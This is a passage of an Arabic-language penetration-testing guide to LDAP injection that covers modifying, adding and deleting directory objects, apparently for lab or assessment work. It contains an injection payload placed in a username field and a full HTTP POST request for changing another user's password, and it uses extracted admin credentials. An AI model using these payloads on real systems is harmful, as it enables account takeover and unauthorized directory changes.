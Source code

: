 
## الخطوات العملية لتعديل بيانات الديركتوري
1. **إعداد البيئة**:
   - استخدم **Burp Suite** أو **OWASP ZAP** لمراقبة وتعديل الطلبات.
   - جهّز أدوات LDAP مثل `ldapmodify` أو `ldapadd` إذا كنت تملك بيانات اعتماد.
   - حدد واجهات التطبيق التي تتفاعل مع LDAP (مثل نموذج تعديل المستخدمين أو واجهة إدارية).
2. **التأكد من الوصول الإداري**:
   - استخدم بيانات الاعتماد المستخلصة (مثل `administrator:MYKE`) لتسجيل الدخول إلى واجهة إدارية.
   - تحقق مما إذا كان التطبيق يسمح بتعديل الديركتوري (مثل واجهة `/admin/users`).
3. **اختبار تعديل البيانات عبر LDAP Injection**:
   - أدخل استعلامات في حقول إدخال لمحاولة تعديل خصائص مثل `userPassword` أو `mail`.
   - راقب استجابات التطبيق لتأكيد نجاح التعديل.
4. **استخدام أدوات LDAP مباشرة**:
   - إذا كنت تملك وصولًا إداريًا، استخدم `ldapmodify` أو `ldapadd` لتغيير أو إضافة كائنات.
5. **أتمتة العملية**:
   - استخدم سكربتات لإرسال طلبات تعديل أو إنشاء كائنات تلقائيًا عبر واجهة التطبيق أو أدوات LDAP.

---

## جميع المحاولات الممكنة لتعديل بيانات الديركتوري
سأقسم المحاولات إلى ثلاث فئات رئيسية:
1. **تعديل بيانات المستخدمين الحاليين**: تغيير خصائص مثل `userPassword`, `mail`, أو `memberOf`.
2. **إضافة كائنات جديدة**: إنشاء مستخدمين أو مجموعات جديدة.
3. **حذف كائنات من الديركتوري**: إزالة مستخدمين أو كائنات أخرى.

### 1. تعديل بيانات المستخدمين الحاليين
الهدف هو تغيير خصائص مستخدم موجود (مثل `user1`)، مثل كلمة المرور أو العضوية في مجموعة.

#### أ. تعديل كلمة المرور عبر واجهة التطبيق
- **السيناريو**: لاحظت أن واجهة `/admin/change_password` تتفاعل مع LDAP لتغيير كلمة المرور. تستغل الثغرة لتغيير كلمة مرور `user1`.
- **الإدخال**:
  - Username: `user1*)(uid=user1)(userPassword=newpass123)`
  - New Password: `anything`
- **الطلب**:
  ```
  POST /admin/change_password HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=user1*)(uid=user1)(userPassword=newpass123)&new_password=anything
  ```
- **كيف يعمل**:
  - الاستعلام يحاول تعديل `userPassword` لـ `user1` إلى `newpass123`.
  - إذا كان التطبيق يمرر المدخلات مباشرة إلى LDAP دون تصفية، يتم تغيير كلمة المرور.
  - استجابة إيجابية (مثل رمز 200 أو "Password changed") تؤكد نجاح التعديل.
- **متى يُستخدم؟**:
  - عندما يكون هناك واجهة تتيح تغيير كلمة المرور وتتأثر بـ LDAP Injection.
- **الأوامر/الإجراءات**:
  - في Burp Suite Repeater، أرسل الطلب أعلاه.
  - تحقق من تسجيل الدخول بـ `user1:newpass123`:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded
